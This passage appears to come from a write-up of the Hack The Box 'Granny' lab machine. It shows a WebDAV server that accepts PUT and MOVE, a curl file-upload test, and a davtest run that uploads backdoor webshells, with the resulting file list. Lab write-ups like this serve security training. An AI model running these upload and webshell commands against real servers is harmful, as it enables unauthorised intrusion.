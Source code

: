 ![](/assets/obsidian/c993aed4243241fe5fbdfeb2ee6b1b7b.png)

## Shell as network service


### Webdav File Write

Nmap scan shows it's a **webdav** server, and allows HTTP methods such as `PUT` and `MOVE`

Confirmed that we can upload files

```bash
┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ touch test

┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ curl http://granny.htb -T test
```

Use **davtest** to auto test **webshells**

```bash
┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ davtest -move -sendbd auto --url http://granny.htb
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://granny.htb
********************************************************
NOTE    Random string for this session: 1xDMnOTr
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://granny.htb/DavTestDir_1xDMnOTr
********************************************************
...
/usr/bin/davtest Summary:
Created: http://granny.htb/DavTestDir_1xDMnOTr
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.asp
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.asp;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.jhtml
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.jhtml;.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.txt
MOVE/PUT File: http://granny.htb/DavTestDir_1xDMnOTr/davtest_1xDMnOTr.txt;.txt
```